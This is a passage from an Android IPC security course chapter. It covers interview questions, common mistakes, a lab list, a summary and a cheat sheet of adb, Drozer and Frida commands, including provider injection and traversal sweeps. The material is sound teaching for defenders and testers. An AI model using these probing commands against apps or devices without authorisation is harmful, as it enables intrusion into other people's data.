`onReceive`'s Intent, and `ContentProvider` parameters; sinks are `startActivity`, `startService`,
`bindService`, `sendBroadcast`, `setResult`, `PendingIntent.getXxx`, and `grantUriPermission`;
sanitisers are explicit component construction, package equality checks against `getPackageName()`,
and `removeFlags` of the grant flags. Tools: a custom Android Lint detector for the common syntactic
case (fast, runs on every build, low false negatives for the obvious pattern), plus a heavier
interprocedural analysis in CI. Discuss the false-positive problem — most flagged flows reach only
exported components — and propose reducing it by encoding the exported set from the manifest into the
analysis so the tool can rank findings by what they actually reach.

**Q: Argue for and against exposing an AIDL service to third parties at all.**
For: it is the only mechanism with a trustworthy caller identity, it is typed, it is versionable, it
avoids the parsing burden of a text protocol, and it gets lifetime management and death notification
for free. Against: every method is an attack surface reachable by any app that can bind; the
transaction codes are trivially reverse-engineered so obscurity contributes nothing; the interface
becomes a compatibility commitment; and a single missing check on one method compromises the whole
service. Resolution: expose the narrowest possible interface, protect it with a `signature`
permission, validate per-method, and treat every argument as hostile regardless.

### Principal Engineer

**Q: Android's IPC model puts authorisation in the receiver. What are the alternatives, and what
would they cost?**
A strong answer contrasts the ambient-authority model Android inherits from POSIX with a genuine
capability model. Under ambient authority, a process's rights are attached to its identity, so any
request it makes is evaluated against everything it can do — which is exactly what makes the confused
deputy possible. Under a capability model, authority travels *with* the request as an unforgeable
token, so a deputy acting on a client's behalf can only wield the authority the client handed it.
Android already has capability-shaped pieces: Binder handles are unforgeable object references, URI
grants are transferable per-object rights, and file descriptors passed over Binder are capabilities
in the classical sense. The cost of going further is compatibility — the entire SDK surface assumes
ambient authority — plus developer complexity, and a hard problem in revocation and delegation
tracking. A credible answer proposes an incremental path: make the framework distinguish
"authority I hold" from "authority I was handed", perhaps by tainting Intents that arrived from
another UID and refusing grant flags on them, which is broadly the direction of the Android 12+
`PendingIntent` and Android 14 implicit-intent restrictions.

**Q: You are asked to reduce the platform's app-to-app attack surface without breaking the
ecosystem. What do you change first?**
Expect a prioritisation argument with data behind it. A defensible answer: (1) make Intents that
crossed a UID boundary carry a taint bit, and have the framework refuse to honour `FLAG_GRANT_*` on a
tainted Intent — this kills the highest-severity redirection class without touching any app that is
not already vulnerable; (2) require an explicit opt-in for abstract-namespace socket creation from an
app process, enforced in SELinux, since almost no app needs it and those that do can declare it;
(3) make loopback listening sockets visible to the user and to Play Store review, because the current
invisibility is what allows them to persist. Then discuss migration: each change needs a `targetSdk`
gate, a `StrictMode`-style warning phase, and a Play policy phase before enforcement.

**Q: How do you evaluate whether a proposed IPC hardening measure is worth its compatibility cost?**
Expect: measure the population of affected apps from a corpus, distinguish apps that would break from
apps that would merely warn, estimate the vulnerability population the change eliminates using
historical finding data rather than intuition, consider whether the change can be made
`targetSdk`-gated so it is opt-in over time, and consider whether developers have a viable migration
path that is *easier* than what they do today — because a hardening measure with no easy alternative
just produces creative workarounds that are usually worse than what was banned.

---

## 11. Common Mistakes

### Developer mistakes

- **Exporting a component to make it work.** The developer hits a `SecurityException`, sets
  `exported="true"`, the error goes away, and the component is now public forever.
- **Believing "local" means "private".** `LocalServerSocket`, `127.0.0.1`, and "internal" broadcast
  actions are all device-global.
- **Using a `normal`-protection custom permission** and believing it restricts anything.
- **Checking the caller's package name instead of its signature.** Package names are not unique
  across the ecosystem in any enforced way at runtime for a *bind target*; verify the signing
  certificate.
- **Forwarding a caller-supplied Intent.** The single most common high-severity app finding.
- **Putting secrets in broadcast extras**, or in a global broadcast at all.
- **Creating a mutable `PendingIntent`** with an implicit base Intent.
- **Trusting an Intent extra to carry an authorisation decision**, such as
  `is_admin` or `skip_pin`.
- **Trusting a `ContentProvider` `selection` parameter** and concatenating it into SQL.
- **Leaving debug IPC in release builds** — a localhost inspector, a DevTools socket, a "test" broadcast.
- **Omitting the `finally` around `restoreCallingIdentity`.**
- **Using `sharedUserId`** to solve a data-sharing problem, then discovering it cannot be removed.

### Pentester mistakes

- **Proving reachability only from `adb shell`.** UID 2000 has privileges an app does not. Reproduce
  from Drozer or a real APK before writing the finding.
- **Reporting every `getParcelableExtra` → `startActivity` as intent redirection** without walking
  the reach-through to see what it actually reaches.
- **Reading only the manifest.** Abstract sockets, localhost servers, shared memory and file modes
  are invisible there, and they are where the interesting findings hide.
- **Ignoring the sending direction.** An app that *broadcasts* a token is as vulnerable as one that
  *receives* a bad Intent, and manifest analysis will never show it.
- **Not checking `targetSdk`.** Half the platform's mitigations are `targetSdk`-gated, so a finding
  that is real on an app targeting API 22 may be impossible on the same code targeting API 33.
- **Testing on one Android version** and generalising. Clipboard, scoped storage, implicit
  broadcasts, and `PendingIntent` mutability all changed behaviour across versions.
- **Assuming a `SecurityException` means "secure".** It may mean you got the URI path wrong, or that
  the provider requires a permission your test app can simply request.
- **Destroying evidence.** Running `pm clear` or an exploit that wipes data before capturing the
  before-state.
- **Missing the `<queries>` requirement on API 30+.** Your attacker app may fail to see the target
  package at all and you will misread that as "not reachable".
- **Inflating severity.** An abstract socket that returns a version string is not Critical. Say what
  it does, not what it could have done.

### Reverse engineer mistakes

- **Assuming obfuscation hides the IPC surface.** Framework calls and manifest declarations survive
  R8 intact; IPC is the most legible part of an obfuscated app.
- **Missing native IPC.** The Java layer may be clean while a bundled `.so` opens a socket. Always
  run the native triage.
- **Trusting `apktool`'s manifest alone.** Cross-check with `aapt2 dump xmltree`; a crafted APK can
  make the two disagree, and `PackageManager` follows neither.
- **Reading transaction codes from the wrong `Stub`.** Codes are assigned in declaration order in the
  `.aidl`, and an app may ship several similarly named interfaces. Match on the `DESCRIPTOR` string.
- **Assuming `onTransact` handles only the codes the AIDL declares.** Hand-written overrides
  frequently handle extra, undocumented codes — probe the whole range.
- **Forgetting that `queryLocalInterface` short-circuits marshalling in-process**, so behaviour
  observed in a same-process test may differ from behaviour across a real Binder boundary.

---

## 12. Hands-on Labs

Full lab material lives in [`labs/`](labs/).

| Lab | Objective | Difficulty |
|---|---|---|
| [Lab 01 — Map the IPC surface](labs/lab-01-map-the-ipc-surface.md) | Produce a complete, evidence-backed inventory of one app's IPC surface using both static and live techniques, including the channels the manifest cannot show | Beginner |
| [Lab 02 — The abstract socket](labs/lab-02-abstract-socket.md) | Build a vulnerable app with a `LocalServerSocket`, prove from a second unprivileged app that it is reachable, then fix it three different ways and re-test | Intermediate |
| [Lab 03 — Confused deputy](labs/lab-03-confused-deputy.md) | Exploit an intent-redirection flaw to reach a non-exported activity and to steal a content-URI grant on a non-exported provider | Intermediate |
| [Lab 04 — Localhost service](labs/lab-04-localhost-service.md) | Find, characterise and exploit an app's loopback HTTP server from an app holding only `INTERNET`, then demonstrate the browser/DNS-rebinding variant | Advanced |
| [Lab 05 — CTF: Five doors](labs/lab-05-ctf-five-doors.md) | A single APK with five independent IPC weaknesses, each yielding one flag; no root, no `adb shell` shortcuts allowed | Advanced |

**Assignment.** Take any app already installed on your test device — one you did not write and that
is not the deliberately vulnerable lab target — and complete Section 3.22's seven-step methodology
against it end to end, producing the artefacts each step calls for. Then write a one-page report with
honest severities, including at least one item you *considered* and correctly ruled out as a false
positive. The ruling-out is the part that makes you employable.

---

## 13. Summary

### Key points

- IPC exists because the sandbox is absolute; every IPC channel is a deliberate hole in it, and every
  hole needs a doorman.
- The attacker in the Android threat model is an ordinary app the user installed, with no
  permissions. The cost of trying every door is zero.
- The receiving side always acts with its own authority. That is the confused deputy problem, and it
  is the root of intent redirection, URI-grant theft, and most high-severity app findings.
- Mediated IPC (Intents, providers, broadcasts, bound services) is visible in the manifest and
  policed by `system_server`. Direct IPC (sockets, files, shared memory) is invisible there and
  policed by nothing but the app's own code.
- **Abstract-namespace UNIX sockets have no permissions at all.** `LocalServerSocket("name")` is
  reachable by every app on the device, and the SDK makes it the default.
- **A localhost listener is reachable by any app holding `INTERNET`**, which is every app. Check
  whether it is bound to `127.0.0.1` or to `0.0.0.0`; the latter adds the whole local network.
- `Binder.getCallingUid()` is kernel-supplied and cannot be forged; authorise on it.
  `Binder.getCallingPid()` is racy because PIDs are recycled; log on it, never decide on it.
- `clearCallingIdentity` must come **after** the caller check, must wrap the smallest possible
  region, and must be restored in a `finally`.
- `exported="false"` protects against other apps, not against your own app being used as a proxy.
- A `normal`-protection permission is not access control. Only `signature` is.
- Prove every finding from an unprivileged app, not from `adb shell`, and state the `targetSdk` and
  device fingerprint it applies to.
- Report severity honestly. A redirection that reaches only already-exported components is not a
  finding, and saying so is what makes your other findings believable.

### Mind map



### Condensed cheat sheet

| Need | Command or check |
|---|---|
| Components and export status | `adb shell dumpsys package <pkg>` |
| Target SDK | `aapt2 dump badging app.apk \| grep targetSdk` |
| Abstract sockets | `adb shell cat /proc/net/unix \| grep '@'` |
| Listening ports | `adb shell netstat -tulpn` or `cat /proc/net/tcp` |
| Open FDs / shared memory | `adb shell ls -l /proc/<pid>/fd` |
| Registered Binder services | `adb shell service list` |
| File modes in the data dir | `adb shell ls -laZ /data/data/<pkg>` |
| Start an exported activity | `adb shell am start -n <pkg>/<cls> --es k v` |
| Fire a deep link | `adb shell am start -a android.intent.action.VIEW -d "<uri>"` |
| Send a broadcast | `adb shell am broadcast -a <ACTION> -n <pkg>/<recv>` |
| Query a provider | `adb shell content query --uri content://<auth>/<path>` |
| Provider injection sweep | `drozer> run scanner.provider.injection -a <pkg>` |
| Provider traversal sweep | `drozer> run scanner.provider.traversal -a <pkg>` |
| App Links verification | `adb shell pm get-app-links <pkg>` |
| Trace all IPC | `frida -U -f <pkg> -l scripts/trace-ipc.js` |
| Binder kernel state | `adb shell cat /sys/kernel/debug/binder/proc/<pid>` |

### Quick revision

- Name the two shapes of IPC and say which one the manifest can show you.
- Why is `LocalServerSocket("x")` reachable by every app on the device?
- Which permission does an app need to connect to another app's localhost server, and who has it?
- State the confused deputy problem in one sentence, then give the Android URI-grant version.
- Why is `getCallingUid` safe to authorise on and `getCallingPid` not?
- List the four `clearCallingIdentity` vulnerability patterns.
- What does `exported="false"` *not* protect against?
- What is the protection level a custom permission must have to be a real control, and why?
- Which two Drozer scanner modules should you run on every engagement?
- Where does the platform record persisted URI grants, and why does a forensic analyst care?
- What must you do before writing up any IPC finding you demonstrated from `adb shell`?

---

## 14. References

### AOSP source

- `drivers/android/binder.c` — the Binder driver; transaction handling and identity stamping
- `frameworks/native/libs/binder/` — `IPCThreadState.cpp`, `Parcel.cpp`, `BpBinder.cpp`, `Binder.cpp`
- `frameworks/native/cmds/servicemanager/` — service registration and lookup
- `frameworks/base/core/java/android/os/Binder.java` — `getCallingUid`, `clearCallingIdentity`
- `frameworks/base/core/java/android/content/Intent.java` — every Intent field and `parseUri`
- `frameworks/base/core/java/android/content/IntentFilter.java` — the matching algorithm
- `frameworks/base/core/java/android/net/LocalSocketAddress.java` — the abstract-namespace default
- `frameworks/base/core/java/android/os/MemoryFile.java`, `SharedMemory.java` — shared memory
- `frameworks/base/services/core/java/com/android/server/am/ActivityManagerService.java` — `checkComponentPermission`
- `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java` — activity launch and its denials
- `frameworks/base/services/core/java/com/android/server/uri/UriGrantsManagerService.java` — URI grant issuance
- `frameworks/base/services/core/java/com/android/server/am/BroadcastQueue.java` — broadcast delivery
- `frameworks/base/services/core/java/com/android/server/clipboard/ClipboardService.java` — clipboard access policy
- `frameworks/base/packages/SettingsProvider/` — `Settings.*` as a ContentProvider
- Android Code Search — <https://cs.android.com/>

### Official documentation

- Application fundamentals and the app sandbox — <https://developer.android.com/guide/components/fundamentals>
- Intents and intent filters — <https://developer.android.com/guide/components/intents-filters>
- Bound services and AIDL — <https://developer.android.com/guide/components/aidl>
- `Messenger` — <https://developer.android.com/reference/android/os/Messenger>
- Content providers — <https://developer.android.com/guide/topics/providers/content-provider-basics>
- `FileProvider` — <https://developer.android.com/reference/androidx/core/content/FileProvider>
- Permissions overview and protection levels — <https://developer.android.com/guide/topics/permissions/overview>
- App links verification — <https://developer.android.com/training/app-links/verify-android-applinks>
- `android.net.LocalSocket` — <https://developer.android.com/reference/android/net/LocalSocket>
- `SharedMemory` — <https://developer.android.com/reference/android/os/SharedMemory>
- Android security tips for IPC — <https://developer.android.com/privacy-and-security/security-tips>
- Behaviour changes by API level — <https://developer.android.com/about/versions>

### OWASP

- OWASP MASVS — <https://mas.owasp.org/MASVS/>
- OWASP MASTG — <https://mas.owasp.org/MASTG/>
- MASTG, Android Platform APIs — the published test procedures for IPC exposure
- OWASP Mobile Top 10, M8 "Security Misconfiguration" and M4 "Insufficient Input/Output Validation"

### Research and background

- Norm Hardy, *The Confused Deputy (or why capabilities might have been invented)*, ACM SIGOPS
  Operating Systems Review, 1988 — the original statement of the problem
- Erika Chin, Adrienne Porter Felt, Kate Greenwood, David Wagner, *Analyzing Inter-Application
  Communication in Android*, MobiSys 2011 — the paper that named Android intent-based attack classes
- Adrienne Porter Felt et al., *Permission Re-Delegation: Attacks and Defenses*, USENIX Security 2011
- Long Lu et al., *CHEX: Statically Vetting Android Apps for Component Hijacking Vulnerabilities*,
  CCS 2012
- Steven Arzt et al., *FlowDroid*, PLDI 2014 — taint analysis for Android, the basis of most
  automated IPC-flow tooling
- `man 7 unix` — the authoritative description of the abstract namespace and `SO_PEERCRED`
- `man 2 memfd_create` — memfd and file sealing

### Tooling

- Drozer — <https://github.com/WithSecureLabs/drozer>
- Frida — <https://frida.re/docs/android/>
- Objection — <https://github.com/sensepost/objection>
- MobSF — <https://github.com/MobSF/Mobile-Security-Framework-MobSF>
- jadx — <https://github.com/skylot/jadx>
- apktool — <https://apktool.org/>

### Related chapters

- [20-Security-Architecture](../20-Security-Architecture/README.md) — the platform model IPC sits inside
- [21-App-Sandbox](../21-App-Sandbox/README.md) — the boundary IPC crosses
- [22-SELinux](../22-SELinux/README.md) — the mandatory access control that constrains direct IPC
- [23-Permissions](../23-Permissions/README.md) — protection levels and why only `signature` counts
- [25-Binder](../25-Binder/README.md) — the transport, in full depth
- [26-Intent](../26-Intent/README.md) — the message format, in full depth
- [27-ContentProviders](../27-ContentProviders/README.md) — providers, URI grants, injection, traversal
- [28-Services](../28-Services/README.md) — bound services and their lifecycle
- [29-BroadcastReceivers](../29-BroadcastReceivers/README.md) — broadcasts in full
- [32-Manifest](../32-Manifest/README.md) — reading the manifest properly
- [33-Storage](../33-Storage/README.md) — shared files and scoped storage
- [43-WebView](../43-WebView/README.md) — where deep-link findings usually end up
- [53-Frida](../53-Frida/README.md) — the instrumentation used throughout Section 7
- [77-UsefulCommands](../77-UsefulCommands/README.md) — the command reference
